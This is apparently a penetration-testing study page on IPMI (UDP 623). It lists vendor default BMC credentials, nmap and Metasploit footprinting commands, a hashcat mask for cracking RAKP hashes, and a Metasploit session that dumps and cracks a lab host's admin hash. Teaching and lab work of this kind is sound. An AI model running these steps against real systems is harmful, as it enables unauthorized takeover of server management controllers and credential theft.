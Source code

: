 # (623 UDP)IPMI

{% hint style="info" %}
<mark style="color:blue;">This document will be published upon completion of the module.</mark>
{% endhint %}

## About

[Intelligent Platform Management Interface](https://www.thomas-krenn.com/en/wiki/IPMI\_Basics) (`IPMI`) is a set of standardized specifications for hardware-based host management systems used for system management and monitoring.\
&#x20;It provides sysadmins with the ability to manage and monitor systems even if they are powered off or in an unresponsive state. It operates using a direct network connection to the system's hardware and does not require access to the operating system via a login shell. \
IPMI can also be used for remote upgrades to systems without requiring physical access to the target host.

To function, IPMI requires the following components:

* Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
* Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
* Intelligent Platform Management Bus (IPMB) - extends the BMC
* IPMI Memory - stores things such as the system event log, repository store data, and more
* Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

## Footprinting

### Nmap

```shell-session
$ sudo nmap <TARGET> -p 623 -sU --script ipmi-version  
```

### Metasploit

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

### Default Credentials

It is possible that administrators have not changed the default password. Here's a list of some default passwords depending on the product running IPMI:

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

Login credentials are always useful even if they don't give us access to whatever we were looking for, we could try to connect to another service using them. Here's a possible scenario:

### RAKP flaw

The RAKP **(Remote Authenticated Key-Exchange Protocol)** is part of the IPMI **(Intelligent Platform Management Interface)**, which is commonly used for managing and monitoring server hardware remotely.

RAKP is used in the authentication process for IPMI 2.0, particularly in the **RMCP+ (Remote Management Control Protocol Plus)** phase, which ensures secure communications between the client (e.g., an IPMI client) and the server (the BMC, or Baseboard Management Controller).

> If default credentials do not work to access a BMC, we can turn to a [flaw](http://fish2.com/ipmi/remote-pw-cracking.html) in the RAKP protocol in IPMI 2.0. During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes place. This can be leveraged to obtain the password hash for ANY valid user account on the BMC. These password hashes can then be cracked offline using a dictionary attack using `Hashcat` mode `7300`. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

So in short, we'll be using metasploit to dump password hashes and crack them offline.

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts <TARGET>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
